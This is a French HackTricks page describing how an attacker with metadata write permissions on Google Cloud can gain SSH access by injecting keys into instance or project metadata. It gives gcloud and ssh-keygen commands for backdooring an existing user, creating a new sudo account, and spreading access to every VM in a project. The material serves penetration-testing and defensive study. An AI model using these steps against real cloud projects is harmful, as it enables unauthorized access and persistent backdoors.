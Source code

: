 # GCP - Ajouter des métadonnées SSH personnalisées

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modification des métadonnées sur une instance peut entraîner **des risques de sécurité importants si un attaquant obtient les autorisations nécessaires**.

### **Incorporation de clés SSH dans les métadonnées personnalisées**

Sur GCP, les **systèmes Linux** exécutent souvent des scripts à partir de l'[Environnement invité Linux Python pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un composant critique de cela est le [démon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui est conçu pour **vérifier régulièrement** le point de terminaison des métadonnées de l'instance pour les **mises à jour des clés publiques SSH autorisées**.

Par conséquent, si un attaquant peut modifier les métadonnées personnalisées, il pourrait faire en sorte que le démon trouve une nouvelle clé publique, qui sera traitée et **intégrée dans le système local**. La clé sera ajoutée dans le fichier `~/.ssh/authorized_keys` d'un **utilisateur existant ou potentiellement créer un nouvel utilisateur avec des privilèges `sudo`**, en fonction du format de la clé. Et l'attaquant pourra compromettre l'hôte.

### **Ajouter une clé SSH à un utilisateur privilégié existant**

1. **Examiner les clés SSH existantes sur l'instance :**
- Exécutez la commande pour décrire l'instance et ses métadonnées afin de localiser les clés SSH existantes. La section pertinente dans la sortie se trouvera sous `metadata`, en particulier la clé `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Faites attention au format des clés SSH : le nom d'utilisateur précède la clé, séparé par un deux-points.

2. **Préparer un fichier texte pour les métadonnées de clé SSH :**
- Enregistrez les détails des noms d'utilisateur et de leurs clés SSH correspondantes dans un fichier texte nommé `meta.txt`. Cela est essentiel pour conserver les clés existantes tout en ajoutant de nouvelles.

3. **Générer une nouvelle clé SSH pour l'utilisateur cible (`alice` dans cet exemple) :**
- Utilisez la commande `ssh-keygen` pour générer une nouvelle clé SSH, en veillant à ce que le champ de commentaire (`-C`) corresponde au nom d'utilisateur cible.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Ajoutez la nouvelle clé publique à `meta.txt`, en imitant le format trouvé dans les métadonnées de l'instance.

4. **Mettre à jour les métadonnées de clé SSH de l'instance :**
- Appliquez les métadonnées de clé SSH mises à jour à l'instance en utilisant la commande `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Accéder à l'instance en utilisant la nouvelle clé SSH :**
- Connectez-vous à l'instance avec SSH en utilisant la nouvelle clé, accédant à l'invite de commande dans le contexte de l'utilisateur cible (`alice` dans cet exemple).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Si aucun utilisateur intéressant n'est trouvé, il est possible d'en créer un nouveau auquel seront accordés des privilèges `sudo` :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

Il est possible d'élargir la portée de l'accès SSH à plusieurs Machines Virtuelles (VMs) dans un environnement cloud en **appliquant des clés SSH au niveau du projet**. Cette approche permet l'accès SSH à n'importe quelle instance dans le projet qui n'a pas explicitement bloqué les clés SSH au niveau du projet. Voici un guide résumé :

1. **Appliquer des clés SSH au niveau du projet :**
- Utilisez la commande `gcloud compute project-info add-metadata` pour ajouter des clés SSH depuis `meta.txt` aux métadonnées du projet. Cette action garantit que les clés SSH sont reconnues sur toutes les VMs du projet, sauf si une VM a activé l'option "Bloquer les clés SSH au niveau du projet".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Accéder aux Instances en Utilisant les Clés au Niveau du Projet :**
- Avec les clés SSH au niveau du projet en place, vous pouvez vous connecter en SSH à n'importe quelle instance dans le projet. Les instances qui ne bloquent pas les clés au niveau du projet accepteront la clé SSH, accordant l'accès.
- Une méthode directe pour se connecter en SSH à une instance est d'utiliser la commande `gcloud compute ssh [INSTANCE]`. Cette commande utilise votre nom d'utilisateur actuel et les clés SSH définies au niveau du projet pour tenter l'accès.


# Références
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
